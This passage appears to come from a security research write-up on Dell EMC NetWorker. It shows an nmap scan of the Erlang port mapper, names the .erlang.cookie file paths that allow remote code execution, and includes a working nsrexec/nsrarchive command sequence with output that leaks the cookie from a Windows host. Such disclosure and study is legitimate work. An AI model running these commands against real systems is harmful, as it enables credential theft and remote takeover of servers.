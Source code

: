 Note that port 44296 corresponds to Erlang Distribution Server, and is randomly chosen everytime Erlang runtime is restarted.

#### Erlang Port Mapper Daemon

Erlang Port Mapping Daemon is a small additional daemon that runs alongside every RabbitMQ node and is used by the runtime to discover what port a particular node listens on for inter-node communication.

Requesting the Erlang Distribution Server port from epmd can be done with the 'epmd-info' Nmap script:

```
nmap -sV -p4369 --script epmd-info -Pn -n -vvv 192.168.121.4
 
Nmap scan report for 192.168.121.4
Host is up, received arp-response (0.00017s latency).
Scanned at 2020-11-24 17:56:35 CET for 7s
 
PORT     STATE SERVICE REASON         VERSION
4369/tcp open  epmd    syn-ack ttl 64 Erlang Port Mapper Daemon
| epmd-info:
|   epmd_port: 4369
|   nodes:
|_    rabbit: 44296
MAC Address: 52:54:00:84:E6:65 (QEMU virtual NIC)
```

#### Erlang Cookie

The Erlang distribution server is used to coordinate distributed erlang instances. Should an attacker get the authentication cookie RCE is trivial. Usually, this cookie is named ".erlang.cookie" and varies on location.

On servers running Dell EMC Networker Server components, the file is **/nsr/rabbitmq/.erlang.cookie** on Linux and **C:\\\\Windows\\\\.erlang.cookie** on Windows. Given that we can leak that file content, we can gain remote command execution on the host by authenticating to the Erlang distribution service with that cookie.

Below is a quick demonstration of what dumping the Erlang cookie (`JFBODSOEGHDUTBYQTYYZ`) from a Windows host looks like:

```
[root@networker-client ~]# export RCMD='nsrarchive -f "C:\\Windows\\.erlang.cookie" -T t'
[root@networker-client ~]# nsrexec -c 192.168.121.183
89922 1613751664 1 5 0 1752 2468 0 networker-win nsrarchive NSR notice
74 \nFinished reading the annotation string; beginning the archive process.\n 0
87298 1613751664 2 5 0 1752 2468 0 networker-win nsrarchive NSR warning 48
Ignoring illegal external ASM name '%s' in '%s'. 2 0 20 JFBODSOEGHDUTBYQTYYZ
23 25 C:\Windows\.erlang.cookie
89987 1613751725 2 5 0 1752 2468 0 networker-win nsrarchive NSR warning
48 Cannot determine the job ID: %s. Continuing ...
1 24 184 A connection attempt failed because the connected party did not properly respond after a period of time,
or established connection failed because connected host has failed to respond.
98519 1613751731 2 5 0 1752 2468 0 networker-win nsrarchive NSR warning
47 Unable to setup direct save with server %s: %s. 2 12 13 networker-win
49 85 12289 54 archive services have not been enabled for client `%s' 1 12 13 networker-win
90095 1613751731 2 3 17 1752 2468 0 networker-win nsrarchive RAP warning
36 Cannot open %s session with '%s': %s 3 20 10 nsrarchive 12 13 networker-win
49 85 12289 54 archive services have not been enabled for client `%s' 1 12 13 networker-win
0 1613751731 1 5 0 1752 2468 0 networker-win nsrarchive NSR notice
48 %s%s: %-*s%s%s%s %*s %2.2ld:%2.2ld:%2.2ld %6s %s 14 0 0  20 10
nsrarchive 1 1 0 23 2 C: 0 1   0 0  0 0  1 1 0 0 5 24 GB 30 1 0 30 1 0 30 1 0 36 8 51410848 0 5 files
12289 1613751731 2 3 17 4088 4084 0 networker-win nsrd RAP warning
54 archive services have not been enabled for client `%s' 1 12 13 networker-win
```